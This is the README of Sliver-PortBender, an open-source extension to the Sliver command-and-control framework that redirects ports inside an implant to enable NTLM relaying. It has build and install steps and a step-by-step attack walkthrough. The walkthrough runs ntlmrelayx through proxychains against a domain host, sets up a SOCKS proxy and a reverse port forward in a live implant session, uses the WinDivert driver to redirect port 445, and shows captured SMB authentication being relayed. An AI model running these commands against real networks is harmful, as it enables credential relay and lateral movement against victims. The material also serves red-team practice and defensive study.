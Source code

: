 # Sliver-PortBender

An **extension to Sliver C2**, that allows to **manage multiple redirection traffic rules, from port to port, inside the same implant**. 
It maybe useful for performing **NTLM relaying in Sliver** in a similar way to what is described here https://rastamouse.me/ntlm-relaying-via-cobalt-strike/ for Cobalt-Strike. I recommend the user to first read the article before in case doesn't have any experience with PortBender.
**The extension is a DLL wrapping the PortBender Reflective DLL** developed by praetorian-inc here: https://github.com/praetorian-inc/PortBender. Sliver-PortBender performs the same redirection task, 
performed by the original PortBender, but does everything **inside the same implant with no need to inject into other binaries or drop binaries to disk**.

## How it works

The DLL manages multiple threads each one in charge of redirecting traffic from one port to another one. It keeps a map ID -> thread that allows to destroy/create/list the different
threads. For redirection task most of the code was taken from the original PortBender project and it was refactored in order to not crash the implant.
Even if the **backdoor** command appears as a possible argument, it is actually **not available**.

## How to build it

open the solution file using visual studio 2019, and build the x64 release (I didn't test the x86).

## How to load / install it

Until this is potentially included in the armory it can be built on a windows system and loaded manually in sliver.
Create a directory called sliver-extension and copy inside it SliverPortBender.dll, the binary previously compiled on windows with visual studio, and extension.json:
```
$ mkdir sliver-extension && cd sliver-extension
$ cp /path/to/extension.json .
$ cp /path/to/SliverPortBender.dll .
```

Install and load the extension in sliver-client:
```
> extension install /path/to/sliver-extension
> extension load /path/to/sliver-extension
```

Alternatively you can download the release and use again the `extension install` and `extension load` commands with the folder extracted from the zip in the release. Only x64 version is in the release.

## Usage

Be careful to use it only with **session** type implants. **beacons** in sliver have the issue of reloading everytime the DLL, instead of loading it only the first time it gets executed. I'll perform a PR that fix that behaviour soon.

By running `portbender` you can already get a help message. Here the functionalities:

- `portbender redirect <fakeDstPort> <redirectedPort>` . Redirects the traffic from `<fakeDstPort>` to `<redirectedPort>`
- `portbender list` . List the active redirection rules created with the `redirect command`
- `portbender remove <id>` . Stop and remove a redirection rule with a given `<id>`. The `<id>` is retrieved through the `portbender list`command.

### Example

Here how to use Sliver-Portbender in sliver in order to redirect traffic from port 445 to port 8445 and then relay incoming traffic with ntlmrelayx in the internal network.
Be careful It is first necessary to upload `WinDivert64.sys` in the pivot machine to the path `C:\Windows\System32\drivers`. Later it is necessary to change directory to `C:\Windows\System32\drivers`.

Starting ntlmrelayx:
```

┌──(kali㉿kali)-[~]
└─$ proxychains4 impacket-ntlmrelayx -smb2support -t smb://WIN-ICSQJ44N1F3.contoso.local --no-http-server
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client SMTP loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections

```

Creating socks proxy, port forwarding rule and portbender rule in session:

```

[*] Active session RIPE_COUNCILOR (2aff286b-da8d-4636-8f8e-8512f67ab64e)

sliver (RIPE_COUNCILOR) > socks5 start -P 1080

[*] Started SOCKS5 127.0.0.1 1080
⚠️  In-band SOCKS proxies can be a little unstable depending on protocol

sliver (RIPE_COUNCILOR) > cd C:\\Windows\\System32\\Drivers

[*] C:\Windows\System32\Drivers

sliver (RIPE_COUNCILOR) > ls WinDivert64.sys

C:\Windows\System32\Drivers (1 item, 37.0 KiB)
==============================================
-rw-rw-rw-  WinDivert64.sys  37.0 KiB  Sun Dec 11 21:20:20 +0100 2022


sliver (RIPE_COUNCILOR) > rportfwd add -b 0.0.0.0:8445 -r 192.168.161.50:445

[*] Reverse port forwarding 192.168.161.50:445 <- 0.0.0.0:8445

sliver (RIPE_COUNCILOR) > portbender redirect 445 8445

[*] Successfully executed portbender
[*] Got output:
Initializing manager...
Creating redirection with id 0...
Redirection created successfully


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
        id:     ORIGINAL_PORT -> REDIRECTED_PORT        MODE(0=redirect,1=backdoor)     PASSWORD
        0:      445 -> 8445     0


sliver (RIPE_COUNCILOR) > 
```

Generating some traffic towards port 445 on the pivot machine (ip=192.168.161.30) where the implant is running:
```
C:\Users\Administrator>dir \\192.168.161.30\c$
The user name or password is incorrect.

C:\Users\Administrator>
```

Notice ntlmrelayx captured and relayed some traffic towards another machine in the internal network:

![immagine](https://user-images.githubusercontent.com/74059030/208508027-c9e472d8-5b70-4722-a675-f07baf8cf768.png)

Removing the port redirection rule in the sliver implant:
```

sliver (RIPE_COUNCILOR) > portbender remove 0

[*] Successfully executed portbender
[*] Got output:
successfully removed redirection with Id 0


sliver (RIPE_COUNCILOR) > portbender list

[*] Successfully executed portbender
[*] Got output:
Nothing to show


sliver (RIPE_COUNCILOR) >

```

Notice now the previous command used to generate traffic executes successfully:
![immagine](https://user-images.githubusercontent.com/74059030/208510154-ffb4c5b6-d9cb-4e0a-8de3-e6cea1a114e8.png)


## Credits

- https://github.com/BishopFox/sliver/wiki/Aliases-&-Extensions#extensions
- https://github.com/praetorian-inc/PortBender
- https://rastamouse.me/ntlm-relaying-via-cobalt-strike/
- https://github.com/trustedsec/SliverKeylogger

Special thanks goes to [@rkervella](https://github.com/rkervella) [@moloch--](https://github.com/moloch--) and the other members of Bishop Fox for their job on Sliver. I thank also [@freefirex](https://github.com/freefirex) for his work on Sliver Keylogger, a great reference for building a DLL extension for Sliver.  
